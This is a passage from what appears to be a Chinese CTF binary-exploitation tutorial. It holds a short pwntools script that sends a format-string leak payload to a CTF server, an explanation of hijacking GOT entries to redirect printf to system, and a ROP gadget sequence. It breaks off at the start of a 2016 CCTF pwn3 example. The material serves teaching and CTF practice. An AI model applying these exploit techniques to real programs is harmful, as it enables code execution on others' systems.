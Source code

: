 ```python
from pwn import *
from LibcSearcher import *
goodluck = ELF('./goodluck')
if args['REMOTE']:
    sh = remote('pwn.sniperoj.cn', 30017)
else:
    sh = process('./goodluck')
payload = "%9$s"
print payload
#gdb.attach(sh)
sh.sendline(payload)
print sh.recv()
sh.interactive()
```

# hijack GOT

## 原理

在目前的C程序中，libc中的函数都是通过GOT表来跳转的。此外，在 没有开启RELRO保护的前提下，每个libc的函数对应的GOT表项是可以被修改的。因此，我们可以修改某个libc函数的GOT表内容为另一个libc函数的地址来实现对程序的控制。比如说我们可以修改printf的got表项内容为system函数的地址。从而，程序在执行printf的时候实际执行的是system函数。

假设我们将函数A的地址覆盖为函数B的地址，那么这一攻击技巧可以分为以下步骤

- 确定函数A的GOT表地址。

  - 这一步我们利用的函数A一般在程序中已有，所以可以采用简单的寻找地址的方法来找。

- 确定函数B的内存地址

  - 这一步通常来说，需要我们自己想办法来泄露对应函数B的地址。

- 将函数B的内存地址写入到函数A的GOT表地址处。

  - 这一步一般来说需要我们利用函数的漏洞来进行触发。一般利用方法有如下两种

    - 写入函数：write函数。
    - ROP

    ```text
    pop eax; ret; 			# printf@got -> eax
    pop ebx; ret; 			# (addr_offset = system_addr - printf_addr) -> ebx
    add [eax] ebx; ret; 	# [printf@got] = [printf@got] + addr_offset
    ```

    - 格式化字符串任意地址写

## 例子

这里我们以2016 CCTF中的pwn3为例进行介绍。

### 确定保护

如下
